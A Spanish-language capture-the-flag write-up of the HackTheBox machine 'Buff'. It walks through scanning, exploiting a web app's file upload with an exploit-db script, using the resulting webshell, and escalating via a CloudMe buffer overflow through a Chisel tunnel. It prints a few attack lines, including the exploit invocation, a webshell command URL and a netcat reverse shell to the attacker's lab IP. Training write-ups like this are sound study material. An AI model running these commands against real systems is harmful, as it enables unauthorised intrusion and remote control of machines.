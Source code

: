 ```yaml
---
layout: single
title: Writeup HTB - Maquina Buff
comments: true
excerpt: "Hola a todos hace poco la maquina Buff se retiró. Por lo tanto, escribo este writeup para compartirles como pude resolver esta máquina tan divertida."
date: 2020-11-26
classes: wide
header:
  teaser: /assets/images/writeup-maquina-htb-buff/Screenshot_1.jpg
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP
  - HackTheBox
  - Hacking
---
```


<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_1.jpg">
</p>

Hola a todos hace poco la maquina Buff se retiró. Por lo tanto, escribo este writeup para compartirles como pude resolver esta máquina tan divertida.

Comenzamos, primero haremos un escaneo con nmap a todos los puertos

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_2.jpg">
</p>

Vemos que solo nos arroja los puertos abiertos 7680, 8080. Asi que corramos con nmap para ver la versión de los servicios 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_3.jpg">
</p>

Lo más interesante que vemos es el puerto 8080, así que veámoslo en el navegador 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_4.jpg">
</p>

Vemos que hay una aplicación web, entonces se me ocurre pasarle un whatweb para ver que tecnologías usa

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_5.jpg">
</p>

Esto nos sirve para confirmar lo que nos dice nmap y saber que usa PHP. Ahora usemos Gobuster para un scaneo de directorios

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_6.jpg">
</p>

Lo mas interesante fue /upload.php

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_7.jpg">
</p>

Sin embargo, me salía esto, así que empecé a revisar la web y encontré el nombre de la aplicación

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_8.jpg">
</p>

Así que se me ocurrió buscar un exploit en exploit-db

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_9.jpg">
</p>

Revisemos el exploit para ver como usarlo 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_10.jpg">
</p>

Vemos que usarlo no es complicado solo Poner

```bash
Python 48506.py http://10.10.10.198:8080/
```

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_11.jpg">
</p>

Como vemos nos genera una Shell no tan buena porque no nos deja trabajar cómodamente. La explicación es sencilla lo que pasa que este exploit nos sube un archivo con doble extensión kamehameha.php.png para hacer el bypass y que no es nada menos que nuestra Shell y le hace consultas por GET todos los comandos que hagamos y lo imprime en consola.

```bash
http://10.10.10.198:8080/upload/kamehameha.php?telepathy=comando
```

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_12.jpg">
</p>

Por eso haremos una Shell más cómoda para eso necesitamos subir al servidor nuestro nc.exe con impacket-smbserver

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_13.jpg">
</p>

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_14.jpg">
</p>

Dejamos en escucha el puerto 4445

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_15.jpg">
</p>

Ejecutamos nc.exe de esta manera nc.exe -e cmd 10.10.14.75 4445 para conectarnos a nuestra ip para generar nuestra Shell 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_16.jpg">
</p>

Ahora a buscar nuestra flag de user con exito

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_17.jpg">
</p>

Si intentamos entrar la carpeta de Administrador para buscar la flag nos sale Acess is Denied

## Escalamiento de Privilegios

Llegamos aquí en la parte mas interesante en escalar privilegios con permisos de admin, revisando las carpetas Downloads vemos que hay un ejecutable CloudMe_1112.exe, Tengamos presente esto

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_18.jpg">
</p>

Revisemos los procesos abiertos con el comando: Tasklist

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_19.jpg">
</p>

Vaya vaya, veamos los puertos en escucha con el comando: netstat -ano 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_20.jpg">
</p>

Revisando con powershell que proceso está usando los puertos en especial el puerto 8888, verificamos que el Proceso CloudMe está usando el puerto 8888

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_21.jpg">
</p>

Así que me puse a buscar un exploit para CloudMe y existe uno que hace un buffer overflow, Lamentablemente este puerto está en escucha internamente y no podemos acceder a ella me imagino por un firewall

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_22.jpg">
</p>

Entonces no nos queda mas que hacer Port Forwarding, redirigir el trafico del puerto 8888 a nuestro 127.0.0.1:8888 para poder atacar localmente a la maquina victima con nuestro exploit. Por lo tanto tendremos que usar Chisel 

<center><a href='https://github.com/jpillora/chisel/releases/tag/v1.7.2'>https://github.com/jpillora/chisel/releases/tag/v1.7.2'</a></center><br>

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_23.jpg">
</p>

Para esta maquina yo descargare chisel_1.7.2_windows_386.gz y chisel_1.7.2_linux_amd64.gz y las descomprimiré, para luego de nuevo subir a chisel.exe

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_24.jpg">
</p>

Ya desde nuestra maquina ejecuto el ejecutable en Linux con el siguiente comando con el puerto 9001

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_25.jpg">
</p>

Y en la maquina victima ponemos el siguiente comando con nuestra ip y nuestro puerto 9001 que dejamos en escucha 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_26.jpg">
</p>

Ya que creamos el túnel con éxito , ahora debemos generar el payload para agregarlo a nuestro exploit 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_27.jpg">
</p>

La única modificación que haremos es reemplazar el payload en el exploit

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_28.jpg">
</p>

Ahora dejamos en escucha el puerto 4486 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_29.jpg">
</p>

Y corremos nuestro exploit y bum Shell creada con permisos de administrador 😉 .  Ahora busquemos nuestro Flag 

<p align="center">
<img src="/assets/images/writeup-maquina-htb-buff/Screenshot_29.jpg">
</p>

Espero que le haya gustado el WriteUp, como a mí me gusto escribirla. Aprovecho para saludad a Angussmoody y Nextco por el apoyo con esta maquina.
